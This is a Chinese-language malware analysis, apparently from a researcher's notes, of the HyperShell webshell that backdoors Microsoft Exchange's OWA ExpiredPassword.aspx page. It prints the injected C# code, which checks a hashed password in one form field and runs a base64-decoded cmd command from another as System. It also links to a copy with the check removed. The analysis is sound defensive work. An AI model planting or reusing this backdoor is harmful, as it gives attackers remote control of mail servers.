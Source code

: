 适用于Exchange的webshell

相对路径：`.\Webshells_and_Panel\HyperShell\StableVersion\HighShell v5.0\HyperShell\HyperShell\ExpiredPasswordTech`

与相对路径`.\Webshells_and_Panel\HyperShell\ExpiredPasswordTech`下的文件内容相同

ExpiredPassword.aspx是Exchange正常的功能，对应重置用户口令的页面，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-4-20/3-1.png)

访问的URL：`https://<domain>/owa/auth/ExpiredPassword.aspx`

对应Windows绝对路径：`C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\ExpiredPassword.aspx`

该路径下的webshell默认权限为System

我的测试系统安装了Exchange2013，正常的ExpiredPassword.aspx源码我已经上传至github：

https://raw.githubusercontent.com/3gstudent/test/master/ExpiredPassword.aspx(2013)


HyperShell中的ExpiredPassword.aspx是一个添加了后门代码的文件，同我测试环境的正常ExpiredPassword.aspx文件相比有多处不同，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-4-20/3-2.png)

经过分析发现有可能是Exchange版本差异导致的，忽略版本差异，HyperShell中的ExpiredPassword.aspx主要添加了如下代码：

```
              <%
                    try{
                    if (Convert.ToBase64String(new System.Security.Cryptography.SHA1Managed().ComputeHash(Encoding.ASCII.GetBytes(Encoding.ASCII.GetString(Convert.FromBase64String(Request.Form["newPwd1"])) + "reDGEa@#!%FS"))) == "+S6Kos9D/etq1cd///fgTarVnUQ=")
                    {
                        System.Diagnostics.Process p = new System.Diagnostics.Process();
                        System.Diagnostics.ProcessStartInfo i = p.StartInfo;
                        i.FileName = "cmd";
                        i.Arguments = "/c " + Encoding.UTF8.GetString(Convert.FromBase64String(Request.Form["newPwd2"]));
                        i.UseShellExecute = false;
                        i.CreateNoWindow = true;
                        i.RedirectStandardOutput = true;
                        p.Start();
                        string r = p.StandardOutput.ReadToEnd();
                        p.WaitForExit();
                        p.Close();
                        Response.Write("<pre>" + Server.HtmlEncode(r) + "</pre>");
                        Response.End();
                    }}catch{}
                %>
```

对应到我的测试环境，也就是Exchange2013，添加payload后并去掉验证环节的代码已上传至github：

https://raw.githubusercontent.com/3gstudent/test/master/ExpiredPassword.aspx(2013)(HyperShell)
